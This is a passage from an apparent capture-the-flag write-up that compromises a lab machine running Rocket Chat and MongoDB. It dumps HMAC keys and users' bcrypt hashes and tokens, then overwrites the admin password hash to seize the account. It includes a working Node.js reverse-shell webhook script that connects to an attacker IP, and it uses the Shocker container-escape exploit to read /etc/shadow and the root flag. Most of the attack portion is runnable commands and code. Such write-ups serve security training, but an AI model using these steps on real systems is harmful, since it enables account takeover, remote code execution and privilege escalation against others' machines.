rs0 [direct: primary] admin> db.system.keys.find()
[
  {
    _id: Long("6994889321446637571"),
    purpose: 'HMAC',
    key: Binary(Buffer.from("6def3ebf131b6d0197852202f4908cf0f279016e", "hex"), 0),
    expiresAt: Timestamp({ t: 1636400583, i: 0 })
  },
  {
    _id: Long("6994889321446637572"),
    purpose: 'HMAC',
    key: Binary(Buffer.from("52057603cc02d6cf032aa2d1dc592ad3f8889b06", "hex"), 0),
    expiresAt: Timestamp({ t: 1644176583, i: 0 })
  },
  {
    _id: Long("7064639126477209602"),
    purpose: 'HMAC',
    key: Binary(Buffer.from("8d89fa517f7aaf2813b681aa0e63bcae2a3238cc", "hex"), 0),
    expiresAt: Timestamp({ t: 1652640475, i: 0 })
  },
  {
    _id: Long("7064639126477209603"),
    purpose: 'HMAC',
    key: Binary(Buffer.from("ede2184b2b29a5eb05cca53adb9246b73dc3c90f", "hex"), 0),
    expiresAt: Timestamp({ t: 1660416475, i: 0 })
  }
]
```

Nothing too interesting, lets see the `meteor` database which seems to have more data:
```bash
rs0 [direct: primary] admin> use meteor                                                                                                                     
switched to db meteor                                                                                                                                       
rs0 [direct: primary] meteor> show tables
...[snip]...
ufsTokens
users
usersSessions
...[snip]...
```

It is the Rocket Chat database. Let's see the users table:
```bash
rs0 [direct: primary] meteor> db.users.find()                                                                                                               
[                                                                                                                                                           
  {
    _id: 'rocket.cat',
    createdAt: ISODate("2021-08-10T19:44:00.224Z"),
    avatarOrigin: 'local',
    name: 'Rocket.Cat',
    username: 'rocket.cat',
    status: 'online',
    statusDefault: 'online',
    utcOffset: 0,
    active: true,
    type: 'bot',
    _updatedAt: ISODate("2021-08-10T19:44:00.615Z"),
    roles: [ 'bot' ]
  },
  {
    _id: 'ZLMid6a4h5YEosPQi',
    createdAt: ISODate("2021-08-10T19:49:48.673Z"),
    services: {
      password: {
        bcrypt: '$2b$10$jzSWpBq.eJ/yn/Pdq6ilB.UO/kXHB1O2A.b2yooGebUbh69NIUu5y' 
      },
      email: {
        verificationTokens: [
          {
            token: 'dgATW2cAcF3adLfJA86ppQXrn1vt6omBarI8VrGMI6w',
            address: 'saul@talkative.htb',
            when: ISODate("2021-08-10T19:49:48.738Z")
          }
        ]
      },
      resume: {
        loginTokens: [
          {
            when: ISODate("2022-03-15T17:06:53.808Z"),
            hashedToken: 'VMehhXEh1Z89e3nwMIq+2f5JIFid/7vo6Xb6bXh2Alc='
          }
        ]
      }
    },
    emails: [ { address: 'saul@talkative.htb', verified: false } ],
    type: 'user',
    status: 'offline',
    active: true,
    _updatedAt: ISODate("2022-04-04T17:12:30.788Z"),
    roles: [ 'admin' ],
    name: 'Saul Goodman',
    lastLogin: ISODate("2022-03-15T17:06:56.543Z"),
    statusConnection: 'offline',
    username: 'admin',
    utcOffset: 0
  },
  {
    _id: '8fCqj3f9NciuxMiS2',
    createdAt: ISODate("2022-04-11T08:26:07.137Z"),
    services: {
      password: {
        bcrypt: '$2b$10$P.0yayHX0mTpMy59HyHwPuu1ch/JSyoQPsOgglGB7ThVhnNZ4rQ22',
        reset: {
          token: 'o4zx1LZjOsDpcr-RcYNAGn7nc16yJHsxd9S4AUoAuV1',
          email: 'caue@talkative.htb',
          when: ISODate("2022-04-11T08:26:13.319Z"),
          reason: 'enroll'
        }
      },
      email: {
        verificationTokens: [
          {
            token: 'E4rxMtTSaE8NArp2cWACGfOEVnSmA-QfNTfYbB6lO8g',
            address: 'caue@talkative.htb',
            when: ISODate("2022-04-11T08:26:07.220Z")
          }
        ]
      },
      resume: {
        loginTokens: [
          {
            when: ISODate("2022-04-11T08:26:07.619Z"),
            hashedToken: 'tFHSgDEWRMFvFZU9ORlgAAOrfHKJtHjhMPDQJPKhzxg='
          }
        ]
      }
    },
    emails: [ { address: 'caue@talkative.htb', verified: false } ],
    type: 'user',
    status: 'online',
    active: true,
    _updatedAt: ISODate("2022-04-11T08:26:13.340Z"),
    roles: [ 'user' ],
    name: 'caue',
    lastLogin: ISODate("2022-04-11T08:26:07.617Z"),
    statusConnection: 'online',
    utcOffset: 8,
    username: 'caue'
  }
]
```

Now we are talking! Let's change the `admin` bcrypt hash so we can access the web application.
What we can do is copy the password hash from `caue` user that we know it is `password123` and update the admin password hash with the same.

```bash
rs0 [direct: primary] meteor> db.getCollection('users').update({username:"admin"}, { $set: {"services" : { "password" : {"bcrypt" : "$2b$10$P.0yayHX0mTpMy59HyHwPuu1ch/JSyoQPsOgglGB7ThVhnNZ4rQ22" } } } })
DeprecationWarning: Collection.update() is deprecated. Use updateOne, updateMany, or bulkWrite.
{
  acknowledged: true,
  insertedId: null,
  matchedCount: 1,
  modifiedCount: 1,
  upsertedCount: 0
}
```

Done! Now we can login to Rocket Chat on port 3000 with the credentials `admin:password123`.

### Rocket Chat
We can get the Rocket Chat running going to the Administration panel:


Doing a bit of research I find that for this version we can simply create a webhook to spawn a reverse shell. 
- Browse to http://talkative.htb:3000/admin/integrations/new.
- Select "Incoming WebHook".
- Fill the details as below:


Script:
```bash
const require = console.log.constructor('return process.mainModule.require')();  
var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []);  
var client = new net.Socket();  
client.connect(1234, "10.10.14.7", function(){  
 client.pipe(sh.stdin);  
 sh.stdout.pipe(client);  
 sh.stderr.pipe(client);  
});
```

Press "Save Changes" and then click on "Integrations" on the left menu. It will load the page again with a "Webhook URL" and "Token".
Copy the "Webhook URL" and curl it! It will trigger the reverse shell:
```bash
$ curl http://talkative.htb:3000/hooks/cnZCiHXmYK2ArCwrc/se2rKhmKkCLSz2z6BBNqip4dhvmofcZkn4ahtKfN3ueEevna
```

## Oh no... another container
We get the Rocket Chat reverse shell and we are inside another container:
```bash
$ rlwrap nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.7] from (UNKNOWN) [10.129.199.0] 49424
$ pwd
/app/bundle/programs/server
$ id
uid=0(root) gid=0(root) groups=0(root)
$ hostname
c150397ccd63
$ hostname -I
172.17.0.3
```


### Shocker to root
We can use this [exploit](http://stealth.openwall.net/xSports/shocker.c) 

#### /etc/shadow
Modify the line 130 and 133 of `shocker.c`
- Line 130: `/etc/hostname`
- Line 133: Select the file you would like to read


Compile:
```
gcc shocker.c -o shocker
```

Use base64 to send the file over:
```bash
$ cat shocker | base64 > shocker.b64
```

In the target:
```
$ echo 'AAABAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAOAJAA...' | base64 -d > shocker
$ chmod +x shocker
$ ./shocker
```


#### root.txt
First we modify the following lines of `shocker.c`:


Compile:
```
gcc shocker.c -o shocker
```

Use base64 to send the file over:
```bash
$ cat shocker | base64 > shocker.b64
```

In the target:
```bash
$ echo 'AAABAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAOAJAA...' | base64 -d > shocker
$ chmod +x shocker
$ ./shocker
```

